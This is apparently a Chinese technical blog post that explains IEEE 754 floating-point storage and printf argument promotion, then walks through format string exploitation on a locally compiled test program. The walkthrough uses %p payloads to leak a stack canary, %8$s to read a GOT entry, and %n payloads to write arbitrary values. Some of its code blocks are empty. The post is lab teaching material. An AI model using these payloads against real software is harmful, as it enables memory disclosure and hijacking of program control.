

浮点数精度，printf，格式化字符串漏洞
文中各种图片引用自不同的blog都附在参考链接里面了，侵删。
浮点数的存储
单精度浮点数 (single precision floating point) 的表示方式遵循 IEEE 754 标准。这种表示方式由32位组成：
- 1位用于符号位 (sign bit)
- 8位用于指数 (exponent)
- 23位用于尾数 (mantissa or significand)
双精度类似，此时指数位有11，尾数有52
手工转换的思路是分别把整数部分和小数部分换成二进制，然后缩放成1.X * 2^n的二进制版本科学计数法。此时
.X部分为尾数部分，n为阶码需要加上127，如果n为1那么指数位就是127+1 = 128。之所以会有这个规定，是为了考虑到n为负数的情况（只考虑正数的情况，十进制下小于1）。
下面以8.5存储为单精度为例
-
8.5 是正数，所以符号位为 0。
-
整数部分是 8，转换为二进制是 1000。
-
小数部分是 0.5。将其转换为二进制：
- 0.5 × 2 = 1.0，整数部分是 1
-
所以，0.5 的二进制是 0.1。
-
8.5 的二进制表示为 1000.1。
-
将二进制数表示为规范化形式：1.0001 × 2^3。
-
指数是 3，加上偏移量 127，得到 130。
-
130 的二进制表示为 10000010。
-
尾数是规范化形式中小数点后的部分：0001，补足到 23 位：00010000000000000000000
-
符号位 + 指数 + 尾数 = 0 10000010 00010000000000000000000。
浮点数的分类
当然其实上面介绍的只是浮点数的一种类型的求值方式：规格化浮点数。
浮点数有三种分类，这篇文章总结非常好直接抄过来
-
规格化浮点数
- 此时指数位范围是1至254，因此对应阶码的范围则为-126至127
- 尾数位是一个小于1的小数，在计算真实浮点数字的时候需要+1 （真实的尾数M = 1 + f）。相当于我们省掉了1位二进制，形成了浮点数表示的约定，默认尾数的值还有一个最高位的1。
-
非规格化浮点数，
- 指数位全为0
- 非规格化的方式与规格化不同，它不会对尾数进行加1的处理，也就是说，真实的尾数M = f。这是为了能够表示0这个数值，否则的话尾数总是大于1，那么无论如何都将得不到0这个数值。
-
特殊值
- 在阶码全为1时，如果尾数位全为0，则表示无穷大。符号位为0则表示正无穷大，相反则表示负无穷大。
- 倘若尾数位不全为0时，此时则表示NaN，表示不是一个数字。
- 这一点在Javascript当中有一个相关的函数与这个NaN的含义有点类似，它的作用是用来判断一个参数是否是一个数字。
由此可以看出来，浮点数的取值范围。
举个例子非规格化浮点数（考虑单精度，正数）
- 非规格化数的最小值 = 2^-23 * 2^-126 = 2 ^ -149
- 非格式化数最大值 = (2^-1 + 2^-2 + … + 2 ^ -23)* 2^-126 = (1−2^-23) * 2^-126
通过上面的分析可以发现，尽管浮点数表示的范围很广，但由于精度损失的存在，加上幂次的放大作用，一个浮点数实际上是表示了周围的一个有理数区间。如果将浮点数绘制到一个数轴上，直观上看，靠近0的部分，浮点数出现较密集。越靠近无穷大，浮点数分布越稀疏，一个浮点值代表了周围一片数据。从这个意义上来说，浮点数不宜直接比较相等，它们是代表了一个数据范围。实际应用中，如果要使用浮点数计算，一定要考虑精度问题。在满足精度要求的前提下，计算结果才是有效的。 在计算精度要求情形下，例如商业计算等，应该避免使用浮点数，严格采取高精度计算。
再啰嗦一句，帮助理解，也就是这里非规格化数的最小值2 ^ -149代表了 0到2 ^ -149之间的所有正数。
浮点数的精度
单精度浮点数的精度主要由尾数部分决定。由于尾数有23位，加上隐含的1位，总共有24位的有效数字。
现在，我们来计算这 24 位二进制数可以表示多少位十进制有效数字：log₁₀(2²⁴) ≈ 7.22
这意味着单精度浮点数理论上可以精确表示大约 7位十进制有效数字，这里再对有效数字做一个定义
- 非零数字总是有效数字。
- 在非零数字之间的零是有效数字。
- 小数点左边的前导零不是有效数字。
- 小数点右边的尾随零可能是有效数字，这取决于测量的精度
再看prinf
抄这篇文章的题目，读者可以思考一下输出是什么。
1 |
|
运行的结果是
1 | a/b:0.000000，a:1 |
第一次看到这个题的时候，感觉很奇怪，printf("a/b:%f，a:%d\n",a/b,a,b); 。这里格式化字符串里面只有两位，为什么要传入三个参数。
所以这里我们主要关注打印0-2涉及到的知识点
-
每个参数执行“默认实际参数提升”
- 提升规则如下: float将提升到double
- char、short和相应的signed、unsigned类型将提升到int
-
printf实际上只会接受到double，int，long int等类型的参数。而从来不会实际接受到float，char，short等类型参数。
我们gdb调试结果来佐证一下。
格式化字符串漏洞
先来看一下prinf支持的各种参数
%d或%i：整数%u：无符号整数%f：浮点数%x：十六进制整数（小写）%X：十六进制整数（大写）%o：八进制整数%s：字符串%c：字符%p：指针地址%n：写入的字符数
格式化字符串泄漏栈上内存数据
这种套路，一般用%08x, %p来泄漏栈上数据。举一个leak cannary的例子。
1 |
|
1 | gcc -g -Wall -fstack-protector-all -o program_with_canary program.c |
Cannary会被从QWORD PTR fs:0x28放到栈上，然后我们用%p来读，一个%p读8字节的内存。
实际需要多少个可以通过gdb或静态分析来算。这里给用14个就行了。
格式化字符串泄漏任意地址数据
这种套路一般用来泄漏got表数据，先构想读地址的值在栈上，然后调用%s去读这个地址。
因为这个地址需要在栈上，所以这里为方便用32位程序演示。这个值肯定和printf的第一个参数有一些偏移。所以最后我们需要用%n$s这种“加强版”的%s去读到偏移。
1 | gcc -g -m32 -Wall -fno-stack-protector -o vulnerable_program program.c |
先来读一下GOT表
1 | readelf -r vulnerable_program | grep fget |
和刚才思路类似，先用以一坨%p看一下偏移
1 | AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p |
这里AAAA被断开了，所以我们还需要padding一下
1 | PPAAAA%p %p %p %p %p %p %p %p %p %p %p %p %p %p |
所以我只需要用%8$s即可以读到GOT表地址
1 | python3 -c 'import sys; sys.stdout.buffer.write(b"PP\x10\xc0\x04\x08%8$s\n")' |
1 | b main |
格式化字符串向任意地址写入数据
这种要结合%n来利用，先来看一下%n的用法。
1 |
|
printf解析到%n会把输出的字符串的长度放在i中。
在漏洞利用中，类似于我们用\x10\xc0\x04\x08%8$s去偏移8处读\x10\xc0\x04\x08地址的值。我门用\x10\xc0\x04\x08%8$n去偏移8处的\x10\xc0\x04\x08地址写入打印出来的字符个数。这样我们只要控制打印字数就可以控制任意地址的值了。
1 | python3 -c 'import sys; sys.stdout.buffer.write(b"PP\x10\xc0\x04\x08%8$n\n")' |
修改前 p *0x0804c010
修改后

这里我们只输出六个字符，太少了。实际利用肯定要写入一个地址(比如one gadget的地址)，这个地址一般都很大比如0x80c0ffff，所以需要结合printf的对齐语法来写入大值。
假设第10个偏移是0x0804c010，那我们理论上就可以把地址0x0804c010写入0x08ffffff的值
1 | python3 -c 'import sys; sys.stdout.buffer.write(b"%150994943d%12$nAA\x10\xc0\x04\x08\n")' > te |
在输出大量padding过后成功修改完地址
这种方法简单粗暴，但更优雅的方式是逐字节修改。
依次对0804c010写入0xff，0804c011写入0xff，0804c012写入0xff，0804c013写入0x08
附 non pie 与 ASLR
程序是no pie的就算操作系统开了ASLR也没用？
-
ASLR（Address Space Layout Randomization）：
- 这是一个操作系统级别的安全特性。
- 它随机化进程的内存布局，包括堆、栈、共享库的加载位置等。
-
PIE（Position Independent Executable）：
- 这是一个编译时的选项。
- 它使可执行文件的代码段也能被随机化。
-
ASLR 和 no-PIE 的组合效果：
-
如果程序是 no-PIE 的（非位置独立可执行文件），但操作系统开启了 ASLR：
- 程序的代码段（.text）将会在固定的地址加载。
- 但是，堆、栈、共享库等仍然会被随机化。
-
附 python字符集的坑
1 | parallels@parallels-Parallels-Virtual-Platform:~/Desktop$ python3 -c 'print("PP\x10\xc0\x04\x08%7$s")' > text |
参考
https://blog.csdn.net/dreamer2020/article/details/24158303
https://www.yanbinghu.com/2018/12/02/10796.html
https://www.cnblogs.com/jillzhang/archive/2007/06/24/793901.html
https://blog.csdn.net/weixin_42250302/article/details/108287860
https://www.cnblogs.com/zuoxiaolong/p/computer11.html
https://github.com/firmianay/CTF-All-In-One/blob/master/SUMMARY.md
浮点数精度，printf，格式化字符串漏洞